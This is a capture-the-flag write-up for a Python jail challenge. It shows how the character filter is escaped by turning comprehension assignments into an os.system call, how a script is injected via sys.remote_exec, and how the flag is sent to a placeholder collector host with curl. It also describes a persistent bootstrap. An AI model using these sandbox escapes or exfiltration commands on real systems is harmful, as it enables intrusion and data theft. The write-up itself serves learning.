








# The pyjail

| | |
|---|---|
| Event | The Few Chosen CTF 2026 |
| Category | misc |
| Difficulty | grandpa |
| Author | Hiumee |
| Points at close | 206 |
| Solves | 72 |
| Status | solved |

> pyjail

Files: [`jail.zip`](handout/jail.zip)

<details>
<summary><b>Solution</b></summary>

A comprehension's `for` target can be an attribute, so `[[]for[a.b]in[[v]]]` runs `a.b = v` inside `eval` without `=`, parentheses, or spaces. If you overwrite the three attributes that `os.environ[k] = v` calls, a subscript store becomes an arbitrary two-argument call.

Getting the flag back took longer, since `python3 user.py` runs as a child and can't talk back. The flag leaves through `curl`.

## Recon

`jail.py` writes this filter to `user.py` and runs it as a child.

```python
import sys
def idk(a, b, fn):
    fn(a, b)
code = ''.join(c for c in open("user_input").read()
               if c in "abcdefghijklmnopqrstuvwxyz:_.[],")
if "ass" in code or "typ" in code or "als" in code:
    print("Nope")
else:
    eval(code, {"__builtins__": {"idk":idk,"sys":sys}})
```



The filter drops parentheses, `=`, digits, quotes, uppercase, and spaces. The banned substrings hit `__class__`, `__subclasses__` together with `type`, and `__globals__`, so the usual class walk can't even be spelled. The globals hold only `sys` and the decoy `idk`.

`run.sh` adds `--cap-add=SYS_PTRACE`, a signpost toward [PEP 768](https://peps.python.org/pep-0768/) and its `sys.remote_exec(pid, script_path)`, which takes two arguments, like `idk`. The Dockerfile builds on `python:3.15-rc-slim` and installs `curl`, which the challenge never uses. The local flag is `TEST{flag}`.



## Assignment

Only subscripting, attribute access, and slicing survive the alphabet, so the call has to come from those. Keywords can touch a bracket without a space, and a comprehension target can be any assignable target:

```python
[[]for[a.b]in[[v]]]        # a.b = v
[[]for[a[k]]in[[v]]]       # a[k] = v
```

`ast.parse` in the 3.15 image gives both targets a `Store` context.



## From assignment to a call

In 3.15, `os._Environ.__setitem__` runs `putenv(self.encodekey(key), self.encodevalue(value))`. `encodekey` and `encodevalue` are instance attributes and `putenv` is a module global on `os`, so the primitive can overwrite all three. Then one subscript store is a two-argument call, with a one-argument call on each argument.

Strings come from slicing ones already reachable from `sys`. Slice bounds come from interpreter constants such as `sys.flags.debug` for 0, `sys.float_info.radix` for 2, and `sys.float_info.dig` for 15. Bigger offsets come from chaining, since `s[a:][b:]` equals `s[a+b:]`.

`sys.abiflags` is empty on this build, so `sys.abiflags.join` is `''.join` and glues slices into one string. `sys.intern` returns a `str` unchanged, so it works as a harmless `encodekey`.

```python
sys.q                      = sys.modules[<'os' sliced out of a docstring>]
sys.q.putenv               = sys.__setattr__
sys.q.environ.encodekey    = sys.intern
sys.q.environ.encodevalue  = sys.abiflags.join
sys.q.environ[sys.platform] = [<char slices>]   # sys.linux = "<command>"
sys.q.environ.encodekey    = sys.q.system
sys.q.environ[sys.linux]                        # os.system("<command>")
```

The last line may raise `KeyError`, but the command has already run.

`solve/dump_sources.py` runs in the container, recording every integer under 4000 and every string reachable from `sys` and `os` by an allowed path. `solve/gen.py` builds the command from that dump greedily, cutting the longest prefix it can as a slice of any reachable string. It skips strings that depend on how the interpreter started (`sys.argv`, `sys.path[0]`, `__file__`, `co_filename`), since those differ inside `user.py` and corrupt a slice silently.



## The return channel

`jail.py` never prints what the child writes. The child can't reach the client socket either: reopening a socket through `/proc/<pid>/fd/<n>` returns ENXIO, and [PEP 446](https://peps.python.org/pep-0446/) makes the accepted socket non-inheritable.



With the capability, `sys.remote_exec` can inject a script into pid 1. It runs inside `jail.py`, where `os.write(4, flag)` lands on the client socket. `solve/solve.py` does that and gets `TEST{flag}` back from a local copy of the image.



On the deployed pod it returned only `Send your code:` and `Running your code...` (see [`artifacts/remote-run.txt`](artifacts/remote-run.txt)). The pod probably doesn't grant the capability, but I never checked. Don't test with `hasattr(sys, "remote_exec")`: 3.15 always builds the function, and the permission check runs only at attach time.

## Sending the flag out with curl

The unused `curl` is the way out.

```sh
curl -sk <collector>/pjalive
cat /flag* /*flag* >/tmp/f 2>&1
curl -sk --data-binary @/tmp/f <collector>/pjflag
```

The marker on `/pjalive` proves egress, so silence on `/pjflag` would mean the flag wasn't read. Both hits arrived. The client sees nothing, so `solve/pwn.py` doesn't print a flag and the answer sits on the collector.



## Reproduce

```bash
python3 solve/gen.py                      # print the expression for the default command
python3 solve/genboot.py                  # the 2945-byte bootstrap expression
python3 solve/local_jail.py               # run the handout image locally, flag is TEST{flag}
python3 solve/solve.py                    # local: sys.remote_exec route, returns TEST{flag}
python3 solve/pwn.py                      # remote: claim a slot, fire the curl expression
```

`gen.py` reads tables that `solve/dump_sources.py` and `solve/dump2.py` write from inside the container. Rerun those two if the image moves to another 3.15 point release. `genboot.py` builds an optional bootstrap that rewrites `user.py`, so later connections run unfiltered Python.



Flag: `TFCCTF{i_hope_this_is_not_the_last_jail}`
</details>
